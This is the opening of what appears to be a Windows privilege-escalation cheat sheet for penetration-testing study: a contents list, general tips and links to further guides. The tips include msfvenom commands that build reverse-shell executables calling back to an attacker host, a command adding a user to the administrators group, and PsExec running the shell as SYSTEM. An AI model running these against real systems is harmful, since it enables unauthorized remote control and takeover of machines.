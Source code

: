 # Windows Privilege Escalation
* [General tips](#General-tips)
* [Tools](#Tools)
* [Manual Enumeration](#Manual-Enumeration)
* [Privilege escalation techniques](#Privilege-escalation-techniques)
  * [History](#History)
  * [Kernel exploits](#Kernel-exploits)
  * [Service Exploits](#Service-Exploits)
    * [Insecure Service Properties](#Insecure-Service-Properties)
    * [Unqouted Service Path](#Unqouted-Service-Path)
    * [Weak registry permissions](#Weak-registry-permissions)
    * [Insecure Service Executables](#Insecure-Service-Executables)
    * [DLL Hijacking](#DLL-Hijacking)
    * [Always Install Elevated](#Always-Install-Elevated)
    * [SC manager abuse](#SC-manager-abuse)
  * [Registery](#Registery)
  * [Passwords](#Passwords)
  * [Scheduled tasks](#Scheduled-tasks)
  * [Insecure GUI Apps](#Insecure-GUI-Apps)
  * [Startup apps](#Startup-apps)
  * [Installed applications](#Installed-applications)
  * [Hot Potato](#Hot-Potato)
  * [Token impersonation](#Token-impersonation)
  * [Linux Subsystem](#Linux-Subsystem)
* [UAC bypass](#UAC-bypass) 

## General tips
- https://lolbas-project.github.io/
- Windows check if Windows Scheduler is running (```tasklist```)
  - Go to C:\Program files (x65)\SystemScheduler\Events and check the logs to see if anything is running every x minutes.
  - Check if we got write permissions
- Administrative command execution tips
  - Use msfvenom for shells if we can execute something with admin privileges
     - ```msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exe```
     - ```msfvenom -p windows/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exe```
  - RDP
     - ```net localgroup administrators <username> /add```
  - Admin --> System
    - ```.\PsExec64.exe -accepteula -i -s C:\temp\reverse.exe```
    - https://docs.microsoft.com/en-us/sysinternals/downloads/psexec
- Can also use ```icacls.exe``` or ```Get-acl``` to check permissions on directories/files instead of ```accesschk.exe```

#### Other great sources
- https://www.fuzzysecurity.com/tutorials/16.html
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
- https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
- https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html
